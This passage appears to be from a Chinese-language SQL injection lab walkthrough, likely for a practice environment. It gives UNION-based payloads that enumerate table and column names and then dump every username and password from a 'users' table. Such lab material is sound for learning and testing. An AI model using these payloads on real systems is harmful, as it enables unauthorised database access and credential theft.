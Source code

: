 用 `group_concat()` 函数把查询结果都打包到一个位置中来获取所有表名:

```url
?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security' --+
```

![s1-5.png](s1-5.png)

获取字段:

```url
?id=-1' UNION SELECT 1,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='security' AND table_name='users'),3 --+
```

![s1-6.png](s1-6.png)

#### 构造 payload

构造 payload, 拖出 `users` 表中所有数据:

```url
?id=-1' UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users --+
```

![s1-7.png](s1-7.png)

